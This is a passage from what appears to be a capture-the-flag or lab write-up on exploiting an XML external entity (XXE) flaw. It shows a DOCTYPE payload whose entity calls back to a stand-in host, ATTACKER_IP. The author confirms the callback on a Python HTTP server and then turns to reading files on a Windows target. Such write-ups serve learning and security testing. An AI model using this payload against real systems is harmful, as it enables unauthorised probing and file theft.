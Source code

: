```
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://ATTACKER_IP:8000'>]>
```

Here's how the modified request looks like:

![screenshot6](../assets/images/markup/screenshot6.png)

Notice how I called the XEE with `&test;` within`<item></item>`.

With a simple Python HTTP server up and running:

![screenshot7](../assets/images/markup/screenshot7.png)

Nice, we can see that the XXE injection worked as we got a call back to my HTTP server! Our XEE was successfully defined and called.

After proving that the XXE vulnerability is present, we can try to read some files on the target machine. From Wappalyzer, I know that the target machine is running **Windows**, so we'll have to use Windows paths.
